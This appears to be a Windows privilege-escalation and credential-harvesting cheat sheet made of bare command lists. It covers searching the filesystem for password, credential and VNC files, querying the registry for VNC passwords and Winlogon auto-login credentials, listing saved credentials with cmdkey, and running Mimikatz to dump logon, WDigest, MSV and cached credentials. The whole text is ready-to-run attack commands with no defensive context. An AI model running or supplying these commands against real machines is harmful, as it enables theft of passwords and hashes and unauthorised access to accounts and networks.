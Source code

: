 ## Check startup folder permissions
```powershell
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

## Search for password files
```cmd
dir /s *password*
dir /s *cred*
dir /s *vnc*
dir /s *.config
```

## Search for VNC passwords in registry
```cmd
reg query HKLM\SOFTWARE\RealVNC\WinVNC4 /v password
reg query HKLM\SOFTWARE\TightVNC\Server
```

## Check for auto-login credentials in registry
```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

## List saved credentials
```cmd
cmdkey /list
```

## Run Mimikatz to extract logon passwords
```cmd
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## Run Mimikatz to extract WDigest credentials
```cmd
.\mimikatz.exe "privilege::debug" "sekurlsa::wdigest" "exit"
```

## Run Mimikatz to extract MSV credentials
```cmd
.\mimikatz.exe "privilege::debug" "sekurlsa::msv" "exit"
```

## Run Mimikatz to dump cached credentials
```cmd
.\mimikatz.exe "privilege::debug" "lsadump::cache" "exit"
```
